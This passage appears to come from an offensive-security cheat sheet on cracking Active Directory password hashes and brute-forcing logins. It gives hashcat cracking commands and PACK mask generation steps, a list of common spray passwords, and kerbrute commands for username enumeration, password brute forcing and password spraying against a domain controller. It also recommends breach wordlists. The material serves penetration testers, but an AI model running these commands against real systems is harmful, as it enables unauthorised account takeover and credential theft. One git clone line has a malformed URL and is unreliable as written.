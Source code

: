 Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:
- rockyou (available in Kali Linux)
- Have I Been Powned (https://hashes.org/download.php?hashlistId=7290&type=hfound)
- Collection #1 (passwords from Data Breaches, might be illegal to possess)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r ./rules/best64.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

:warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :
- [hashes.org](https://hashes.org/check.php)
- [hashes.com](https://hashes.com/en/decrypt/hash)

### Password spraying

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. 

> The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates. 

Most of the time the best passwords to spray are :

- `P@ssw0rd01`, `Password123`, `Password1`, `Hello123`, `mimikatz`
- `Welcome1`/`Welcome01`
- $Companyname1 :` $Microsoft1`
- SeasonYear : `Winter2019*`, `Spring2020!`, `Summer2018?`, `Summer2020`, `July2020!`
- Default AD password with simple mutations such as number-1, special character iteration (*,?,!,#)


#### Kerberos pre-auth bruteforcing

Using `kerbrute`, a tool to perform Kerberos pre-auth bruteforcing.

> Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.

* Username bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
  ```
* Password bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
  ```
* Password spray
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
  ```

